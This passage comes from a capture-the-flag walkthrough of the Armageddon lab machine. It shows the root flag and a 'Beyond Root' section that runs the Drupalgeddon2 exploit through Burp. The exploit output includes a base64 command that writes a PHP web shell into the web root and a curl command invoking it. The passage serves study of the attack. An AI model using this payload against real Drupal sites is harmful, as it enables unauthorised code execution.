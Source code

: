 
And I can get the root flag:

    
    
    [root@armageddon ~]# cat root.txt
    a289b09c************************
    

## Beyond Root

To take a look at that Ruby script, I set a new listener in Burp that would
listen on port 8888 and forward all traffic to 10.10.10.233 port 80:

![image-20210326161915166](https://0xdfimages.gitlab.io/img/image-20210326161915166.png)

Then I ran the exploit targeting `http://127.0.0.1:8888`:

    
    
    oxdf@parrot$ /opt/Drupalgeddon2/drupalgeddon2.rb http://127.0.0.1:8888
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://127.0.0.1:8888/
    --------------------------------------------------------------------------------
    [+] Found  : http://127.0.0.1:8888/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.56
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Clean URLs
    [!] Result : Clean URLs disabled (HTTP Response: 404)
    [i] Isn't an issue for Drupal v7.x
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo TRZZJAMZ
    [+] Result : TRZZJAMZ
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://127.0.0.1:8888/shell.php)
    [i] Response: HTTP 404 // Size: 5
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
    [+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
    --------------------------------------------------------------------------------
    [i] Fake PHP shell:   curl 'http://127.0.0.1:8888/shell.php' -d 'c=hostname'
    armageddon.htb>>
    

There are eight new requests in Burp:
